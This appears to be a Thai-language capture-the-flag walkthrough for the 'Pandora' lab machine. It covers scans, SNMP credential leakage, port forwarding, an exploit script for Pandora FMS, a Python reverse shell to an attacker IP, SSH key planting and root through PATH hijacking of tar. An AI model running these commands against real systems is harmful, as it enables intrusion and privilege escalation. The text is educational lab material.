










# Recon 

## TCP Scan 

```bash
./scan.sh 10.10.11.136
[*] Running rustscan...
[*] Running nmap on ports: 22,80
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-17 21:29 +07
Nmap scan report for 10.10.11.136 (10.10.11.136)
Host is up (0.033s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 24:c2:95:a5:c3:0b:3f:f3:17:3c:68:d7:af:2b:53:38 (RSA)
|   256 b1:41:77:99:46:9a:6c:5d:d2:98:2f:c0:32:9a:ce:03 (ECDSA)
|_  256 e7:36:43:3b:a9:47:8a:19:01:58:b2:bc:89:f6:51:08 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Play | Landing
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.68 seconds
                                                                           
```


## UDP Scan 

```bash
sudo nmap -sU -top-ports=100 10.10.11.136
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-17 21:47 +07
Nmap scan report for panda.htb (10.10.11.136)
Host is up (0.033s latency).
Not shown: 59 closed udp ports (port-unreach), 40 open|filtered udp ports (no-response)
PORT    STATE SERVICE
161/udp open  snmp

Nmap done: 1 IP address (1 host up) scanned in 56.56 seconds

```

## HTTP 80 



ซึ่งหลังจากลองทดสอบ Fuzzing ไปแล้วก็ไม่พบอะไรที่น่าสนใจ 

## SNMP UDP 161 

ติดตั้ง snmpwalk 
```bash 
sudo apt update 
sudo apt install snmp snmp-mibs-downloader

snmpwalk -v 2c -c public 10.10.11.136 | tee snmp-full
```

ไม่นานเราก็เจอข้อมูลของ user: daniel:HotelBabylon23  


## Shell as daniel 

จากนั้นลองทดสอบ ssh จะพบว่าสามารถเข้าถึง daniel ได้ด้วยข้อมูลที่ได้ daniel:HotelBabylon23   


## Host Enum 

หากตรวจสอบไปในไฟล์ของ Apache2 จะพบว่ามีการ setup virtual host ชื่อ pandora.panda.htb ไว้ที่ localhost พอร์ต 80 ซึ่งไม่สามารถเข้าได้จากภายนอก 

```xml
daniel@pandora:/etc/apache2/sites-available$ cat pandora.conf 
<VirtualHost localhost:80>
  ServerAdmin admin@panda.htb
  ServerName pandora.panda.htb
  DocumentRoot /var/www/pandora
  AssignUserID matt matt
  <Directory /var/www/pandora>
    AllowOverride All
  </Directory>
  ErrorLog /var/log/apache2/error.log
  CustomLog /var/log/apache2/access.log combined
</VirtualHost>

```

เพื่อให้เราสามารถเข้าถึงได้เราจำเป็นต้องมีการ ทำ Local port forwarding localhost:80 > kali:10001  

```bash
ssh -N -L 0.0.0.0:10001:localhost:80 daniel@panda.htb # on Kali host 
```



จากข้อมูลของเป้าหมายจะพบว่าเว็ยไซต์ดังกล่าวมีการใช้งานเวอร์ชัน v7.0NG.742_FIX_PERL2020



ทั้งนี้ช่องโหว่ดังกล่าวจำเป็นต้องใช้ Authentication ซึ่งจากการทดสอบใช้ Daniel ก็ไม่สามารถเข้าใช้งานได้ ทำให้ Exploit ดังกล่าวไม่สามารถใช้ได้ 




## Exploit Pandora v7
```python
python3 sqlpwn.py -t 'pandora.panda.htb:10001' -f 'shell.php'
```



## Shell as matt

ใช้ Reverse shell ด้วย python shoryest
```python
python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("10.10.14.30",443));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")'
```




```python 
python3 -c 'import pty;pty.spawn("/bin/bash_")'
```

## Shell as ROOT

```bash
find / -perm -4000 -ls 2>/dev/null
```




จากนั้นให้สร้าง public กับ private key สำหรับเข้าไปยังเครื่องด้วยสิทธิของ matt ทั้งนี้เพื่อแก้ปัญหาการรัน sudo -l ไม่ได้ นั่นเอง 

```bash
echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGmmwxN+kle9JpChMyjN0GqoqZ7mm+hr1AZNpkhgrNkI administrator@windows" > authorized_keys 

sudo ssh -i private_key matt@10.10.11.136
```

# Privilege Escalation

```bash
matt@pandora:~$ ltrace pandora_backup
getuid()                                                                = 1000
geteuid()                                                               = 1000
setreuid(1000, 1000)                                                    = 0
puts("PandoraFMS Backup Utility"PandoraFMS Backup Utility
)                                       = 26
puts("Now attempting to backup Pandora"...Now attempting to backup PandoraFMS client
)                             = 43
system("tar -cvf /root/.backup/pandora-b"...tar: /root/.backup/pandora-backup.tar.gz: Cannot open: Permission denied
tar: Error is not recoverable: exiting now
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                  = 512
puts("Backup failed!\nCheck your permis"...Backup failed!
Check your permissions!
)                            = 39
+++ exited (status 1) +++

```


หาเราใช้ ltrace  เราจะพบว่ามีการเรียกใช้ tar สำหรับนำไฟล์ backup ไปใส่ใน /root ฉะนั้นเราจะสร้างโปรแกรม tar ใหม่ โดยให้ระบุ PATH ไปที่ /dev/shm 

```bash
matt@pandora:~$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
matt@pandora:~$ export PATH=/dev/shm:$PATH
matt@pandora:~$ echo $PATH
/dev/shm:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin

cd /dev/shm
vim tar
```

เนื้อหาของ tar 
```sh
#!/bin/bash

bash
```

จากนั้นเปลี่ยนสิทธิให้สามารถรันได้

```bash
chmod +x tar 
# รันคำสั่งอีกครั้งก็จะได้ ROOT กลับมา
pandora_backup 
```


# PWNED 